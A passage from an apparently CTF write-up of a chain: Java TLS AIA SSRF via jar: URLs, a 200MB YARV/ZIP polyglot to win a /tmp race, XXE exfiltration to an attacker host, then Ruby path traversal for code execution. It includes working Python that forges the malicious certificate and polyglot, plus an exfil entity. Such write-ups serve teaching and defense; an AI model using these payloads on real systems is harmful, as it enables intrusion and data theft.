  0x10 = ClientKeyExchange
  0x0F = CertificateVerify
  0x14 = Finished
```

**Certificate Message Structure:**

The Certificate handshake message (type 0x0B) contains X.509 certificates:

```
Certificate Message:
+------------------+------------------+------------------+
| Total Length     | Cert 1 Length    | Certificate 1    |
| (3 bytes)        | (3 bytes)        | (DER encoded)    |
+------------------+------------------+------------------+
                   | Cert 2 Length    | Certificate 2    |
                   | (3 bytes)        | (DER encoded)    |
                   +------------------+------------------+

The certificates are DER-encoded X.509 certificates.
When WE send a client certificate, THIS is where our malicious
AIA extension lives - inside the DER-encoded X.509 structure.
```

### TLS Handshake Flow with Client Authentication

```
Client                                          Server
  |                                                |
  |--- [Record: Handshake] ClientHello ----------->|
  |    - Supported cipher suites                   |
  |    - Random bytes                              |
  |    - Extensions (SNI, etc.)                    |
  |                                                |
  |<-- [Record: Handshake] ServerHello ------------|
  |    - Selected cipher suite                     |
  |    - Random bytes                              |
  |                                                |
  |<-- [Record: Handshake] Certificate ------------|
  |    - Server's X.509 certificate chain          |
  |                                                |
  |<-- [Record: Handshake] CertificateRequest -----|  <-- Server wants OUR cert!
  |    - Acceptable certificate types              |
  |    - Acceptable CAs                            |
  |                                                |
  |<-- [Record: Handshake] ServerHelloDone --------|
  |                                                |
  |--- [Record: Handshake] Certificate ----------->|  <-- WE SEND MALICIOUS CERT
  |    - Our self-signed X.509 with AIA extension  |      (AIA points to jar: URL)
  |    - Java parses this and fetches AIA URL!     |
  |                                                |
  |--- [Record: Handshake] ClientKeyExchange ----->|
  |--- [Record: Handshake] CertificateVerify ----->|
  |--- [Record: ChangeCipherSpec] ---------------->|
  |--- [Record: Handshake] Finished -------------->|
```

**The key insight:** When we send our Certificate message containing our self-signed X.509 certificate, Java's PKIX TrustManager parses it and discovers the AIA extension. It then fetches the URL **before** rejecting the certificate as untrusted.

### CVE-2026-21945: The Vulnerability

This vulnerability was researched and disclosed by **Tenable Research**: [Tenable Discovers SSRF Vulnerability in Java TLS Handshakes That Creates DoS Risk](https://www.tenable.com/blog/tenable-discovers-ssrf-vulnerability-in-java-tls-handshakes-that-creates-dos-risk).

**CVE-2026-21945** was assigned by Oracle and patched in the **January 2026 Critical Patch Update**. Tenable advisory: TRA-2026-03.

**Key Points from Tenable's Research:**
1. Client certificates in mTLS configurations effectively function as **user input**
2. The AIA extension can contain CA Issuers URLs
3. Java's PKIX TrustManager fetches these URLs **before** validation completes
4. This creates an SSRF condition with arbitrary protocol support (including `jar:`)

**The Server Configuration That Enables This:**

```java
// From TlsServer.java
server.setHttpsConfigurator(new HttpsConfigurator(sslContext) {
    @Override
    public void configure(HttpsParameters params) {
        SSLParameters sslParams = getSSLContext().getDefaultSSLParameters();
        sslParams.setWantClientAuth(true);  // <-- REQUESTS CLIENT CERT
        params.setSSLParameters(sslParams);
    }
});
```

`setWantClientAuth(true)` tells the server to request (but not require) a client certificate. When we provide one, Java validates it, triggering the AIA fetch.

### The AIA Extension (Authority Information Access)

X.509 certificates can contain extensions that provide additional information. The **Authority Information Access (AIA)** extension is defined in RFC 5280 Section 4.2.2.1.

**Purpose of AIA:**
- Helps clients find the issuer's certificate when building a certificate chain
- Provides URLs to download missing intermediate certificates
- Specifies OCSP responder locations for revocation checking

**ASN.1 Structure:**

```
AuthorityInfoAccessSyntax ::= SEQUENCE SIZE (1..MAX) OF AccessDescription

AccessDescription ::= SEQUENCE {
    accessMethod    OBJECT IDENTIFIER,
    accessLocation  GeneralName
}

Access Methods:
  id-ad-caIssuers  (1.3.6.1.5.5.7.48.2) - URL to download issuer certificate
  id-ad-ocsp       (1.3.6.1.5.5.7.48.1) - OCSP responder URL
```

**How AIA Appears in a Certificate (DER Encoded):**

```
Certificate Extension:
  OID: 1.3.6.1.5.5.7.1.1 (authorityInfoAccess)
  Critical: FALSE
  Value:
    SEQUENCE {
      SEQUENCE {
        OBJECT IDENTIFIER: 1.3.6.1.5.5.7.48.2 (caIssuers)
        [6] "jar:http://attacker.com/polyglot.zip!/cert.crt"
           └── GeneralName type 6 = URI
      }
    }
```

**Why This Is Dangerous:**

The `accessLocation` can be **any URI**, including:
- `http://` - Standard HTTP fetch
- `https://` - HTTPS fetch
- `ldap://` - LDAP query
- `jar:` - **Java JAR protocol** (our attack vector!)

Java's URL handling supports the `jar:` protocol, which downloads the entire archive to `/tmp` before extracting the requested entry. This is the foundation of our file upload attack.

### Why Java Fetches the AIA URL

When Java's PKIX TrustManager validates a certificate chain, it needs the issuer's certificate to verify the signature. If the issuer cert isn't in the local truststore, Java looks at the AIA extension. The implementation spans several classes:

**ForwardBuilder.java** - Certificate path building logic:

```java
// From OpenJDK src/java.base/share/classes/sun/security/provider/certpath/ForwardBuilder.java
package sun.security.provider.certpath;

class ForwardBuilder extends Builder {
    
    // Called during certificate chain building
    void addCertToPath(X509Certificate cert, LinkedList<X509Certificate> certPathList) {
        certPathList.addFirst(cert);
    }
    
    // This method searches for the issuer certificate
    Collection<X509Certificate> getMatchingCerts(ForwardState currentState, 
            List<CertStore> certStores) throws CertStoreException, IOException {
        
        Collection<X509Certificate> certs = new HashSet<>();
        
        // First try local cert stores
        for (CertStore store : certStores) {
            try {
                certs.addAll(store.getCertificates(caSelector));
            } catch (CertStoreException cse) {
                // continue
            }
        }
        
        // If not found locally, check AIA extension!
        if (certs.isEmpty()) {
            AuthorityInfoAccessExtension aiaExt = currentState.cert.getAuthorityInfoAccessExtension();
            if (aiaExt != null) {
                // This triggers the SSRF!
                certs.addAll(getMatchingCertsFromAIA(aiaExt));
            }
        }
        
        return certs;
    }
}
```

**URICertStore.java** - Fetches certificates from URLs:

```java
// From OpenJDK src/java.base/share/classes/sun/security/provider/certpath/URICertStore.java
package sun.security.provider.certpath;

class URICertStore extends CertStoreSpi {
    private static final int CACHE_SIZE = 185;
    private final CertStore ldapCertStore;
    private CertStoreHelper ldapHelper;
    
    // The URI from AIA extension
    private URI uri;
    
    // Called when AIA extension contains a URI
    URICertStore(CertStoreParameters params) throws InvalidAlgorithmParameterException {
        super(params);
        if (params instanceof URICertStoreParameters) {
            this.uri = ((URICertStoreParameters) params).getURI();
        }
    }
    
    // Fetches the certificate from the URI
    public synchronized Collection<X509Certificate> engineGetCertificates(
            CertSelector selector) throws CertStoreException {
        
        // Check cache first
        if (certs != null && (lastChecked + CHECK_INTERVAL > System.currentTimeMillis())) {
            return getMatchingCerts(certs, selector);
        }
        
        // Not in cache - fetch from network!
        try {
            // THE VULNERABLE LINE - opens connection to attacker-controlled URL
            URLConnection connection = uri.toURL().openConnection();
            
            // Set timeouts
            connection.setConnectTimeout(DEFAULT_CONNECT_TIMEOUT);
            connection.setReadTimeout(DEFAULT_READ_TIMEOUT);
            
            // Fetch the data - supports ANY protocol including jar:!
            try (InputStream in = connection.getInputStream()) {
                // Tries to parse response as certificate
                certs = new ArrayList<>();
                CertificateFactory cf = CertificateFactory.getInstance("X.509");
                
                // This will trigger jar: URL handler if URI starts with jar:
                Collection<? extends Certificate> c = cf.generateCertificates(in);
                for (Certificate cert : c) {
                    if (cert instanceof X509Certificate) {
                        certs.add((X509Certificate) cert);
                    }
                }
            }
            
            lastChecked = System.currentTimeMillis();
            
        } catch (IOException | CertificateException e) {
            // Exception is swallowed - validation continues
            // But the URL was still fetched!
            certs = Collections.emptyList();
        }
        
        return getMatchingCerts(certs, selector);
    }
}
```

**AIA Extension Parsing** - Extracts URLs from certificate:

```java
// From OpenJDK src/java.base/share/classes/sun/security/x509/AuthorityInfoAccessExtension.java
package sun.security.x509;

public class AuthorityInfoAccessExtension extends Extension {
    public static final ObjectIdentifier AD_CAISSUERS_Id = 
        ObjectIdentifier.of("1.3.6.1.5.5.7.48.2");  // id-ad-caIssuers
    
    private List<AccessDescription> accessDescriptions;
    
    public List<AccessDescription> getAccessDescriptions() {
        return accessDescriptions;
    }
}

// AccessDescription contains the method and location
public class AccessDescription {
    private ObjectIdentifier accessMethod;
    private GeneralName accessLocation;
    
    public ObjectIdentifier getAccessMethod() {
        return accessMethod;
    }
    
    public GeneralName getAccessLocation() {
        return accessLocation;  // Contains the URI
    }
}
```

**The vulnerability:** Java fetches the AIA URL **during** certificate validation, not after. The `URICertStore.engineGetCertificates()` method is called before the certificate chain is validated. This happens regardless of whether the certificate will ultimately be trusted. An attacker can provide any certificate with any AIA URL, and Java will fetch it. Since `uri.toURL().openConnection()` supports the `jar:` protocol, we can trigger file downloads to `/tmp`.

### Creating the Malicious Certificate

```python
from cryptography import x509
from cryptography.x509.oid import AuthorityInformationAccessOID

def generate_cert(aia_url):
    key = rsa.generate_private_key(65537, 2048, default_backend())
    
    # AIA extension pointing to our malicious URL
    aia = x509.AuthorityInformationAccess([
        x509.AccessDescription(
            AuthorityInformationAccessOID.CA_ISSUERS,
            x509.UniformResourceIdentifier(aia_url)
        )
    ])
    
    cert = (x509.CertificateBuilder()
        .subject_name(x509.Name([x509.NameAttribute(x509.oid.NameOID.COMMON_NAME, "Client")]))
        .issuer_name(x509.Name([x509.NameAttribute(x509.oid.NameOID.COMMON_NAME, "Fake CA")]))
        .public_key(key.public_key())
        .serial_number(x509.random_serial_number())
        .not_valid_before(datetime.now(timezone.utc))
        .not_valid_after(datetime.now(timezone.utc) + timedelta(days=1))
        .add_extension(aia, critical=False)
        .sign(key, hashes.SHA256(), default_backend()))
    
    return cert, key

# Our AIA URL uses jar: protocol to trigger file write
jar_url = f"jar:http://{ATTACKER_HOST}:{ATTACKER_PORT}/polyglot.zip!/nonexistent.txt"
cert_path, key_path = generate_cert(jar_url)
```

### Step 4: Java jar: Protocol Handler - File Upload to /tmp

### How the jar: URL Protocol Works

Java's `jar:` URL protocol allows accessing entries inside JAR/ZIP files. The format is:

```
jar:<url>!/<entry>
```

For example: `jar:http://example.com/lib.jar!/com/foo/Bar.class`

When Java processes this URL, it must download the entire ZIP file to extract the requested entry. The implementation spans multiple classes in OpenJDK.

**JarURLConnection.java** - Entry point for jar: URLs:

```java
// From OpenJDK src/java.base/share/classes/sun/net/www/protocol/jar/JarURLConnection.java
package sun.net.www.protocol.jar;

public class JarURLConnection extends java.net.JarURLConnection {
    private static final JarFileFactory factory = JarFileFactory.getInstance();
    private JarFile jarFile;
    private JarEntry jarEntry;
    private URL jarFileURL;
    private URLConnection jarFileURLConnection;
    
    public JarURLConnection(URL url, Handler handler) throws MalformedURLException, IOException {
        super(url);
        // Parse the jar URL: jar:http://example.com/foo.jar!/path/to/entry
        parseSpecs(url);
        // jarFileURL = http://example.com/foo.jar
        // entryName = path/to/entry
    }
    
    public void connect() throws IOException {
        if (!connected) {
            // This triggers the download!
            jarFile = factory.get(getJarFileURL(), getUseCaches());
            
            // Parse the entry path from the URL
            if (getEntryName() != null) {
                jarEntry = jarFile.getJarEntry(getEntryName());
                if (jarEntry == null) {
                    throw new FileNotFoundException("JAR entry " + getEntryName() + 
                        " not found in " + jarFile.getName());
                }
            }
            connected = true;
        }
    }
}
```

**JarFileFactory.java** - Manages JAR file caching:

```java
// From OpenJDK src/java.base/share/classes/sun/net/www/protocol/jar/JarFileFactory.java
package sun.net.www.protocol.jar;

class JarFileFactory implements URLJarFile.URLJarFileCloseController {
    private static final HashMap<String, JarFile> fileCache = new HashMap<>();
    private static final HashMap<JarFile, URL> urlCache = new HashMap<>();
    
    public JarFile get(URL url, boolean useCaches) throws IOException {
        JarFile result;
        if (useCaches) {
            synchronized (this) {
                result = getCachedJarFile(url);
            }
            if (result != null) return result;
        }
        
        // Not cached - must retrieve from network
        result = URLJarFile.getJarFile(url, this);
        
        if (useCaches) {
            synchronized (this) {
                fileCache.put(urlKey(url), result);
                urlCache.put(result, url);
            }
        }
        return result;
    }
}
```

**URLJarFile.java** - The actual download happens here:

```java
// From OpenJDK src/java.base/share/classes/sun/net/www/protocol/jar/URLJarFile.java
package sun.net.www.protocol.jar;

public class URLJarFile extends JarFile {
    private static URLJarFileCallBack callback = null;
    private URLJarFileCloseController closeController = null;
    
    public static JarFile getJarFile(URL url, URLJarFileCloseController closeController) 
            throws IOException {
        // For remote URLs (http, https, ftp)
        if (isFileURL(url)) {
            return new URLJarFile(url.getPath(), closeController);
        } else {
            // REMOTE FILE - must download to temp!
            return retrieve(url, closeController);
        }
    }
    
    // THE VULNERABLE METHOD - downloads entire file to /tmp
    private static JarFile retrieve(final URL url, final URLJarFileCloseController closeController) 
            throws IOException {
        
        // Step 1: Create temp file with predictable prefix "jar_cache"
        // Files.createTempFile creates: /tmp/jar_cache<random_digits>.tmp
        Path tmpFile;
        try {
            tmpFile = Files.createTempFile("jar_cache", null);
        } catch (IOException | SecurityException e) {
            throw new IOException("Unable to create temp file", e);
        }
        
        try {
            // Step 2: Open connection to remote URL
            URLConnection uc = url.openConnection();
            uc.setRequestProperty("User-Agent", "Java/" + System.getProperty("java.version"));
            
            // Step 3: Download ENTIRE file to disk BEFORE any validation
            // This is where the race window opens!
            try (InputStream in = uc.getInputStream()) {
                // Blocking copy - file exists on disk during entire download
                Files.copy(in, tmpFile, StandardCopyOption.REPLACE_EXISTING);
            }
            
            // Step 4: NOW try to parse as JAR (after full download!)
            // If this fails, file is deleted in catch block
            JarFile jarFile = new URLJarFile(tmpFile.toFile(), closeController);
            return jarFile;
            
        } catch (IOException | SecurityException e) {
            // Step 5: Delete temp file on ANY error
            // But the file existed for the entire download duration!
            try {
                Files.deleteIfExists(tmpFile);
            } catch (IOException ignored) {}
            throw e;
        }
    }
}
```

The key insight is that `Files.copy()` blocks while downloading, and the file is fully accessible on disk during this time. Only after the complete download does Java attempt to parse it as a JAR, and only then does it delete the file if parsing fails.

### Why We Create a 200MB File - Understanding the Race Condition

The race condition exists because of the order of operations in Java's jar: handler:

```
Timeline WITHOUT Large File (1KB payload):
┌─────────────────────────────────────────────────────────────────┐
│ Time: 0ms     │ 10ms        │ 15ms        │ 20ms                │
├───────────────┼─────────────┼─────────────┼─────────────────────┤
│ createTempFile│ Files.copy()│ Parse JAR   │ Delete (failed)     │
│               │ (instant)   │ (fails)     │                     │
│               │             │             │                     │
│ File created  │ File ready  │ File exists │ FILE GONE           │
│               │             │             │                     │
│     RACE WINDOW: ~10ms - IMPOSSIBLE TO WIN!                     │
└─────────────────────────────────────────────────────────────────┘

Timeline WITH Large File (200MB payload):
┌─────────────────────────────────────────────────────────────────────────────┐
│ Time: 0ms     │ 1s          │ 5s          │ 10s         │ 20s              │
├───────────────┼─────────────┼─────────────┼─────────────┼──────────────────┤
│ createTempFile│ Downloading │ Downloading │ Downloading │ Parse+Delete     │
│               │ 10MB done   │ 50MB done   │ 100MB done  │                  │
│               │             │             │             │                  │
│ File created  │ File exists │ File exists │ File exists │ FILE GONE        │
│               │             │             │             │                  │
│     RACE WINDOW: ~20 seconds - PLENTY OF TIME!                              │
└─────────────────────────────────────────────────────────────────────────────┘
```

**The Problem We're Solving:**

Without a large file, the race window is measured in **milliseconds**:
1. Java creates temp file
2. Java downloads payload (instant for small files)
3. Java tries to parse as JAR
4. Parsing fails -> file deleted

We need to:
- Use XXE to list `/tmp` directory
- Find the `jar_cache*.tmp` filename
- Forge a session cookie pointing to it
- Make HTTP request to `/profile` to trigger RCE

All of this takes **several seconds** minimum due to network round trips.

**The Solution - Slow Down the Download:**

By making our polyglot file **200MB**, we extend the download time:

```python
# Calculate race window
file_size = 200 * 1024 * 1024  # 200 MB
network_speed = 10 * 1024 * 1024  # ~10 MB/s typical
download_time = file_size / network_speed  # = 20 seconds

# Our attack needs approximately:
# - 2s for XXE to list /tmp
# - 1s for HTTP round trip
# - 1s for forging cookie
# - 2s for RCE trigger
# Total: ~6 seconds

# 20 seconds >> 6 seconds = We win the race!
```

**Why Files.copy() Is Blocking:**

The Java code uses `Files.copy(in, tmpFile)` which:
1. Reads chunks from the network InputStream
2. Writes chunks to the temp file
3. **Does NOT return until entire file is copied**
4. The file is fully accessible on disk during this time

```java
// This line BLOCKS for the entire download duration
Files.copy(in, tmpFile, StandardCopyOption.REPLACE_EXISTING);
// ^-- File exists and is readable during this entire time!

// Only AFTER copy completes does Java try to parse:
JarFile jarFile = new URLJarFile(tmpFile.toFile(), closeController);
// ^-- If this fails, file gets deleted
```

**Why We Use Null Bytes for Padding:**

Our polyglot structure:
```
[YARV bytecode ~500 bytes][ZIP with 200MB of null bytes]
```

We pad with null bytes (`\x00`) because:
1. **Compresses poorly** - ZIP_STORED mode means no compression, so 200MB stays 200MB
2. **Fast to generate** - Python can allocate 200MB of zeros instantly
3. **Doesn't affect YARV parsing** - Ruby only reads the header
4. **Valid ZIP structure** - Java sees a valid ZIP with a large file inside

```python
# Fast polyglot generation
with zipfile.ZipFile(zip_buf, "w", zipfile.ZIP_STORED) as zf:
    zf.writestr("padding.bin", b"\x00" * (200 * 1024 * 1024))
```

### Why Compiled JARs Stay in /tmp But Gradle Runs Need Racing

**Compiled JAR classloading:** When Java loads classes from a remote JAR URL (e.g., via `URLClassLoader`), the JAR file is cached in `/tmp/jar_cache*.tmp` and kept open for the lifetime of the classloader. The file persists because the classloader holds a reference.

**One-shot URL fetches (our case):** When Java fetches a `jar:` URL during certificate validation, it's a one-shot operation. The file is downloaded, validation fails (our ZIP doesn't contain a valid certificate), and the file is immediately deleted.

**The race window:** The file exists on disk during the download. With a 200MB file at ~10MB/s, we have approximately 20 seconds where the file exists. During this window, we can use XXE to discover the filename and trigger our RCE before the download completes and the file is deleted.

**Race Window Timeline:**

```mermaid
gantt
    title Large File (200MB) - Extended Race Window (~20 seconds)
    dateFormat X
    axisFormat %ss
    
    section Java Processing
    createTempFile                      :a1, 0, 1
    Files.copy() downloading 200MB      :active, a2, 1, 20000
    JarFile validation                  :a3, 20000, 20001
    Entry not found                     :a4, 20001, 20002
    FileNotFoundException               :a5, 20002, 20003
    Handle released                     :a6, 20003, 20004
    
    section RACE WINDOW (File Attackable)
    File exists on disk                 :crit, w1, 1, 20000
    
    section Attacker Actions (during download)
    XXE to list /tmp                    :b1, 2000, 5000
    Find jar_cache filename             :b2, 5000, 7000
    Forge session cookie                :b3, 7000, 9000
    Trigger RCE                         :milestone, b4, 9000, 9001
    FLAG CAPTURED                       :done, b5, 9001, 12000
```



**Complete Attack Flow:**



### The /tmp Directory and Java Performance Data

The challenge container includes a background cleanup in `entrypoint.sh`:

```bash
# Background cleanup to keep /tmp clean
(while true; do rm -rf /tmp/hsperfdata_* 2>/dev/null; sleep 5; done) &
```

### Why This Cleanup Script is CRUCIAL for the Exploit

This cleanup script is **essential** for our XXE directory listing attack to work. Here's why:

**What is hsperfdata?**

Java's HotSpot JVM creates performance monitoring directories in `/tmp`:
```
/tmp/hsperfdata_<username>/
    └── <pid>    (binary file with performance counters)
```

For example: `/tmp/hsperfdata_appuser/12345`

**The Problem: Spaces and Binary Data**

Without the cleanup script, `/tmp` would contain:
```
/tmp/
├── jar_cache8234892348923.tmp     <-- Our polyglot (simple filename)
├── hsperfdata_appuser/            <-- Directory with space in listing
│   └── 12345                      <-- Binary performance data
├── systemd-private-xxx.../        <-- Long filename with special chars
└── ...
```

When Java's `FileURLConnection` lists this directory, it returns:
```
jar_cache8234892348923.tmp
hsperfdata_appuser
12345
systemd-private-abc123-systemd-resolved.service-xyz
```

**Why This Breaks XXE Exfiltration:**

Our XXE OOB exfiltration embeds the directory listing in a URL:
```xml
<!ENTITY % exfil SYSTEM 'http://attacker:9090/exfil?data=%file;'>
```

After entity substitution, this becomes:
```
http://attacker:9090/exfil?data=jar_cache8234892348923.tmp
hsperfdata_appuser
12345
...
```

**The newlines break the URL!** HTTP URLs cannot contain unencoded newlines. The XML parser doesn't URL-encode the substituted content, so:

1. The HTTP request becomes malformed
2. The connection fails or only the first line is sent
3. We might not receive the `jar_cache` filename at all

**How the Cleanup Script Saves Us:**

By running `rm -rf /tmp/hsperfdata_* 2>/dev/null` every 5 seconds:

1. The `hsperfdata_*` directories are continuously removed
2. The `/tmp` listing becomes much cleaner:
   ```
   jar_cache8234892348923.tmp
   .X11-unix
   .font-unix
   ```
3. Fewer entries = smaller payload = less chance of URL issues
4. No binary performance data files that could corrupt the exfiltration

**Without the cleanup script, the attack would likely fail because:**

| Issue | Impact |
|-------|--------|
| Newlines in URL | HTTP request malformed, connection fails |
| Binary data in hsperfdata files | Could corrupt the exfiltration if somehow included |
| Too many entries | URL too long, might be truncated |
| Race with JVM creating new hsperfdata | Unpredictable directory contents |

**The Script Design is Intentional:**

Notice the script ONLY removes `hsperfdata_*`, NOT `jar_cache*`:
- `hsperfdata_*` - Removed every 5 seconds (helps our attack)
- `jar_cache*.tmp` - Left alone (our payload stays!)

This is the perfect setup for our exploit - it cleans the "noise" while preserving our uploaded file.

### jar_cache File Lifecycle

The `jar_cache*.tmp` files are managed by Java's JAR handler itself - they are deleted when:

1. **JAR parsing fails** - The file is deleted in the `catch` block of `URLJarFile.retrieve()`
2. **JVM exits** - Files are registered with `deleteOnExit()` for cleanup on shutdown
3. **Cache eviction** - Old entries may be evicted from `JarFileFactory`'s cache

**Why this matters for our attack:**

Since `jar_cache` files aren't aggressively cleaned, we have a reliable race window. The file persists during the entire download (our 20-second window with a 200MB file), and even after download completes, it remains until the JVM decides to clean it up. This gives us plenty of time to:
1. List `/tmp` via XXE to find the filename
2. Forge a session cookie pointing to it
3. Trigger the RCE before the file disappears

**Note:** If the container were to run a more aggressive cleanup like `find /tmp -type f -mmin +1 -delete`, we would need to act faster, but the current setup is lenient.

### Implementation

```python
def create_polyglot():
    # Ruby payload that executes readflag
    payload = f"`/usr/local/bin/readflag > /tmp/flag_output.txt`; {{ username: '{USERNAME}', rce: true }}"
    yarv = compile_yarv(payload)
    
    # 200MB padding creates ~20 second download window
    target_size_bytes = 200 * 1024 * 1024
    
    zip_buf = io.BytesIO()
    with zipfile.ZipFile(zip_buf, "w", zipfile.ZIP_STORED) as zf:
        zf.writestr("dummy.txt", b"x")
        zf.writestr("padding.bin", b"\x00" * target_size_bytes)
    
    # Polyglot: YARV header at start, ZIP structures at end
    return yarv + zip_buf.getvalue()
```

### Step 5: Create YARV/ZIP Polyglot Payload

### Understanding YARV (Yet Another Ruby VM)

YARV is the virtual machine that executes Ruby code since Ruby 1.9. When Ruby code is compiled, it produces YARV instruction sequences that the VM executes.

**YARV Binary Format:**

```
Offset  Size    Content
0x00    4       Magic: "YARB" (0x59415242)
0x04    4       Major version (e.g., 3)
0x08    4       Minor version (e.g., 3)
0x0C    4       Size of instruction sequence data
0x10    4       Extra size (platform-specific data)
0x14    4       Instruction sequence count
0x18    4       Code location (offset to code section)
0x1C    4       Code size
0x20    4       Operand location
0x24    4       Operand size
0x28    4       Insn info location
0x2C    4       Insn info size
0x30    4       Local table location
0x34    4       Local table size
0x38    4       ID table location
0x3C    4       ID table size
0x40    4       Object table location
0x44    4       Object table size
0x48    4       IC entries location
0x4C    4       IC entries size
0x50    var     Instruction sequence name (null-terminated)
...     var     Compiled bytecode instructions
...     var     Operand data
...     var     Local variable table
...     var     ID (symbol) table
...     var     Object literals table
```

The key APIs are:
- `RubyVM::InstructionSequence.compile(code)` - Compile Ruby source to bytecode
- `iseq.to_binary` - Serialize bytecode to binary format
- `RubyVM::InstructionSequence.load_from_binary(data)` - Load bytecode from binary
- `iseq.eval` - Execute the bytecode

**Ruby's official warning:**

> *"This loader does not have a verifier, so that loading broken/modified binary causes critical problem. You should not load binary data provided by others."*

### Understanding Path Traversal

**What is Path Traversal?**

Path traversal (also known as directory traversal or dot-dot-slash attack) is a vulnerability that allows an attacker to access files outside the intended directory by using special characters like `../` to navigate the filesystem.

```
Normal Path Resolution:
  Base directory: /opt/external-app/sessions/
  User input:     abc123
  Result:         /opt/external-app/sessions/abc123  [OK] Safe

Path Traversal Attack:
  Base directory: /opt/external-app/sessions/
  User input:     ../../../tmp/malicious.txt
  Result:         /opt/external-app/sessions/../../../tmp/malicious.txt
  Resolves to:    /tmp/malicious.txt  [ESCAPED!]
```

**How `../` Works:**

Each `../` moves up one directory level:
```
Starting point: /opt/external-app/sessions/
  ../ (1) ->     /opt/external-app/
  ../ (2) ->     /opt/
  ../ (3) ->     /
  tmp/    ->     /tmp/
  file    ->     /tmp/file
```

### Why Path Traversal Alone Isn't Enough

Path traversal lets us READ or INCLUDE files, but we need a file with **our malicious content** to exist on the filesystem first. Consider the challenge:

**Scenario WITHOUT File Upload:**
```
Path Traversal Vulnerability:
  ├── Can read ANY file on disk
  ├── Can include ANY file on disk
  └── BUT... what file contains our payload?

Available Files:
  /etc/passwd           -> Not executable bytecode
  /proc/self/environ    -> Not executable bytecode
  /var/log/apache.log   -> Not executable bytecode
  ???                   -> Where is our YARV payload?
```

Without the ability to upload a file, path traversal is limited to:
- Reading sensitive files (info disclosure)
- Including existing code (limited to what's already there)
- Log poisoning (if logs are accessible and writable)

**Scenario WITH File Upload (jar: SSRF):**
```
jar: Protocol + Path Traversal = RCE:
  
  Step 1: jar: SSRF writes our payload to /tmp/jar_cache123.tmp
          └── Contains: YARV bytecode that runs `readflag`
  
  Step 2: Path traversal points to our uploaded file
          └── session_id = "../../../tmp/jar_cache123.tmp"
  
  Step 3: Ruby loads and executes our bytecode
          └── RCE achieved!
```

**The Key Insight:**

| Vulnerability | Alone | Combined |
|---------------|-------|----------|
| Path Traversal | Read files, but nothing useful to include | Point to our payload in /tmp |
| jar: File Upload | File lands in /tmp, but can't execute it | File gets executed via path traversal |
| **Combined** | - | **Full RCE!** |

This is why the exploit chains multiple vulnerabilities - each one is useless alone, but together they achieve code execution.

### The Vulnerable Code

The path traversal exists in `load_session`:

```ruby
def load_session(session_id)
  # VULNERABLE: session_id is used directly in path construction
  session_path = File.join(settings.sessions_dir, session_id)
  # settings.sessions_dir = "/opt/external-app/sessions"
  # session_id = "../../../tmp/jar_cache123.tmp" (attacker controlled!)
  # session_path = "/opt/external-app/sessions/../../../tmp/jar_cache123.tmp"
  
  return nil unless File.exist?(session_path)
  # File.exist? follows the path traversal - our file in /tmp exists!
  
  yarv_binary = File.binread(session_path)
  # Reads our polyglot file from /tmp
  
  iseq = RubyVM::InstructionSequence.load_from_binary(yarv_binary)
  # Parses the YARV bytecode header
  
  iseq.eval  # EXECUTES OUR MALICIOUS BYTECODE!
end
```

**Why File.join Doesn't Prevent This:**

Many developers assume `File.join` sanitizes paths, but it doesn't:

```ruby
# File.join just concatenates with the correct separator
File.join("/opt/external-app/sessions", "../../../tmp/jar_cache123.tmp")
# => "/opt/external-app/sessions/../../../tmp/jar_cache123.tmp"

# The path traversal sequences are preserved!
# When this path is opened, the OS resolves it:
# /opt/external-app/sessions/../../../tmp/jar_cache123.tmp
#                            |
#                            v
#                       /tmp/jar_cache123.tmp
```

**Secure Alternative (what should have been done):**

```ruby
def load_session(session_id)
  # Sanitize: Remove any path components
  safe_id = File.basename(session_id)  # Strips ../../../ etc.
  
  # Or: Validate format
  return nil unless session_id.match?(/\A[a-f0-9]{32}\z/)  # Only hex chars
  
  session_path = File.join(settings.sessions_dir, safe_id)
  
  # Additional check: Ensure we're still in sessions directory
  real_path = File.realpath(session_path)
  unless real_path.start_with?(File.realpath(settings.sessions_dir))
    return nil  # Path escaped sessions directory!
  end
  
  # ... rest of the code
end
```

### The Polyglot: Valid YARV AND Valid ZIP

A **polyglot file** is a file that is simultaneously valid in multiple formats. Our exploit requires a file that is both valid YARV bytecode AND a valid ZIP archive.

**Why We Need BOTH Valid YARV and Valid ZIP:**

The polyglot requirement arises from conflicting constraints:
- If we send raw YARV bytecode without ZIP structure, Java's jar: handler will reject it because `new URLJarFile(tmpFile)` calls the ZipFile constructor, which validates the `PK\x03\x04` magic bytes. An invalid ZIP throws a ZipException and the file gets deleted before we can use it.
- If we send a normal ZIP file without YARV bytecode at the start, Ruby's `load_from_binary(data)` will fail because it expects the 'YARB' magic bytes at offset 0.

**How ZIP Files Work:**

ZIP files are parsed from the **end** of the file, not the beginning:

```
ZIP File Structure:
+------------------------------------------+
| [Arbitrary Data - IGNORED]               |  <-- Can be YARV bytecode!
| Can be anything before first PK header   |
+------------------------------------------+
| Local File Header 1 (PK\x03\x04)         |
| [compressed data for file 1]             |
+------------------------------------------+
| Local File Header 2 (PK\x03\x04)         |
| [compressed data for file 2]             |
+------------------------------------------+
| Central Directory (PK\x01\x02)           |
| Points to Local Headers above            |
+------------------------------------------+
| End of Central Directory (PK\x05\x06)    |  <-- ZIP Parser starts HERE
| Offset to Central Directory              |      (scans backwards from end)
+------------------------------------------+
```

**Key insight:** ZIP parsers scan backwards from the end of the file to find the "End of Central Directory" record (magic bytes `PK\x05\x06`). Everything before the first Local File Header is **ignored**.

**How YARV Bytecode Works:**

YARV bytecode is parsed from the **beginning** of the file:

```
YARV Binary Format:
+------------------------------------------+
| YARV Header (offset 0x00)                |  <-- YARV Parser starts HERE
| Magic: 'YARB'                            |      (reads from start)
| Major/Minor version                      |
| Size, Extra size                         |
+------------------------------------------+
| Instruction Sequences                    |
| Bytecode instructions                    |
| Local variable tables                    |
| Exception tables                         |
+------------------------------------------+
| [Anything after size bytes - IGNORED]    |  <-- Can be ZIP data!
+------------------------------------------+
```

**Key insight:** YARV reads exactly the number of bytes specified in its header. Everything after that is **ignored**.

**The Polyglot Construction:**

```
YARV/ZIP Polyglot File:
+------------------------------------------+
| 0x00000000 - YARV Section (~500 bytes)   |  <-- Ruby reads from HERE
| YARB magic + headers                     |
| Compiled malicious Ruby code             |
+------------------------------------------+
| 0x000001F4 - ZIP Local Header 1          |
| PK\x03\x04 - dummy.txt                   |
+------------------------------------------+
| 0x00000220 - ZIP Local Header 2          |
| PK\x03\x04 - padding.bin                 |
| [200MB null bytes - extends race window] |
+------------------------------------------+
| 0x0C800000 - Central Directory           |
| PK\x01\x02 entries                       |
+------------------------------------------+
| 0x0C800100 - End of Central Directory    |  <-- Java scans backwards to HERE
| PK\x05\x06                               |
